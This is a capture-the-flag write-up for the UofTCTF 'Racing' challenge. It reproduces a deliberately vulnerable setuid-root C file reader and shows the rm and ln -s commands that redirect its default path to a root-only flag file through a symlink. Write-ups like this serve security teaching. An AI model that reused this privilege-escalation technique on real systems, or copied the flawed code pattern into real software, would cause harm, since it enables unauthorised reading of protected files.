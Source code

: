 ```yaml
---
title: UofTCTF - Racing
published: 2025-01-14
description: 'This challenge is a misc chall on my first ctf ever ! '
image: ''
tags: [UofTCTF,]
category: 'misc'
draft: false 
lang: ''
---
```


# Intro


First of all, let's take a look at the challenge : 
<br/>
![](../../assets/Racing/Pasted%20image.png)

Nothing really interesting but they gave us a copy of the binary running on the machine.

When we connect to the machine, we can see a `flag.txt` that we can't read. So, we can imagine that the challenge is to exploit the binary to read `flag.txt`.
Lets review the code : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }

    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;

    if (!access(fn, R_OK))
    {
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;

        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }

        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }

        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
    }
    else
    {
        printf("Cannot read file.\n");
        return 1;
    }
}

```

I'm not a C expert but I understood that this code asks us for a file to read with `root permissions` : 

```c
//here, the program starts by upgrading the process privileges to root
if (setuid(0) != 0)
```

```c
printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;
```

But we can't read directly the flag file : 

```c
if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }
```

# Exploit

Something more interesting is the fact that if we don't specify any file, the code will read the file at `"/home/user/permitted"` : 

```c
char *fn = "/home/user/permitted";
```

```c
//here, f is is the result of the user input.
if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }
```

So, my idea was to link the "permitted" file to flag.txt with a `symbolic link`, as we have root privileges by running the program (So we can read the flag file, which is owned and only readable by root).


```shell
User@containerssh-hblmc:/challenge$ rm /home/user/permitted
User@containerssh-hblmc:/challenge$ ln -s /flag.txt /home/user/permitted
```
:::important
If you're not familiar with symbolic links, think of them as a shortcut on the desktop: they are special files that point to another file. If we open this link, we can access the original file. If the original file is deleted or moved, the link no longer works.

:::

With this, if we don't specify any file, the program will try to read `/home/user/permitted`, but with the symbolic link, it will instead read the `flag.txt` file."

Lets run the code now : 

```shell
User@containerssh-hblmc:/challenge$ ./chall
Enter file to read : 
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```

Bingo ! we have the flag ! 




